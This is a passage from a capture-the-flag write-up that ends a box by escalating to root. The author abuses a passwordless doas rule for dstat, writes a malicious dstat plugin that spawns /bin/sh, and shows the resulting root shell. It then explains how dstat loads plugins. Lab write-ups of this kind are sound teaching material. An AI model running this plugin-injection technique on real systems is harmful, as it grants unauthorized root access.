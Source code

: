 But one thing that stands out is this `doas` thing. I haven't seen that before:

```
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

That looks highly relevant! Looks like some kind of `sudo -l` variation. I google it, and Arch says:

> OpenDoas is a portable version of OpenBSD's doas command, known for being substantially smaller in size compared to sudo. Like sudo, doas is used to assume the identity of another user on the system. 

Nice - sounds like something I can use! I don't know what `dstat` is, so I check the man-page out:

```
DESCRIPTION
       Dstat is a versatile replacement for vmstat, iostat and ifstat. Dstat overcomes some of the
       limitations and adds some extra features.
```

I check out GTFOBins to see if they have an entry doe dstat:

They do! https://gtfobins.github.io/gtfobins/dstat/

Just going to copy and paste the sudo commands, and replace sudo with doas:

```
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
doas /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

Nice! Box has been pwned!

# Understanding dstat privilege escalation

Continuing to read through the man-page, dstat supports a kind of custom plugin: 

```
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```

And I guess the plugin is just called whatever is between `dstat_` and `.py` (`xxx`) in my case, and that dstat simply runs the plugin file to run the plugin.

Pretty neat!

# Conclusion

Overall really nice box! I was stuck only a few times, I think. Mainly trying to figure out how to do blind sql injection and running sqlmap trough a proxy.

Really enjoyed it and I think I learned a lot!

